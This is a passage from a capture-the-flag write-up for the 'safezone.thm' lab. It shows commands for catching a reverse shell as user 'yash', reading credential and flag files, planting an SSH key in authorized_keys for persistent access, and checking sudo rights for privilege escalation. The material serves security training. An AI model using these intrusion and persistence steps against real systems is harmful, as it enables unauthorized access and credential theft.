 * Now, if we submit the query ```/tmp/revshell```, we get a reverse shell from 'yash':

  ```sh
  # on listener on port 4445
  id
  # we are 'yash'

  # stabilise shell like before

  ls -la
  # we are in /opt
  
  cat login.js
  # this shows creds for the login.html page was user:pass
  # but it would have led to pentest.php anyway

  cat pentest.php
  # the page substituted multiple blacklisted words with empty character

  ls -la /home/yash
  
  cat /home/yash/flag.txt
  ```

* We can get a more stable SSH connection first:

  ```sh
  # in yash reverse shell
  mkdir ~/.ssh

  cd ~/.ssh

  # in attacker machine
  ssh-keygen -f yash
  # generates 'yash.pub' and 'yash' keys

  cat yash.pub
  # copy the public key

  md5sum yash.pub

  # in yash reverse shell
  echo "ssh-rsa..kali" > authorized_keys
  # paste the copy key into the file

  md5sum authorized_keys
  # verify the hash to ensure the key has been copied correctly

  chmod 600 authorized_keys

  # in attacker machine
  # we can SSH as yash now
  ssh yash@safezone.thm -i yash

  sudo -l
  # shows we can run a Python script as root
  # (root) NOPASSWD: /usr/bin/python3 /root/bk.py

  ls -la /root/bk.py
  # permission denied

  # we can try to run this
  sudo /usr/bin/python3 /root/bk.py
  ```

